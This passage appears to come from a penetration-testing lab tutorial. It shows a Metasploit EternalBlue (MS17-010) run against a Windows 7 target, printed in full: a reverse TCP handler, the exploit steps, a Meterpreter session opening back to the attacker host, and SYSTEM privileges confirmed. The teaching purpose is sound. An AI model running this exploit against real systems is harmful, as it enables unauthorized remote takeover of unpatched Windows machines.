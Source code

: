 Then, we can run the exploit and see what it returns. Check out the differences in the output below:

  MSF - Exploit and Payload Configuration

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.
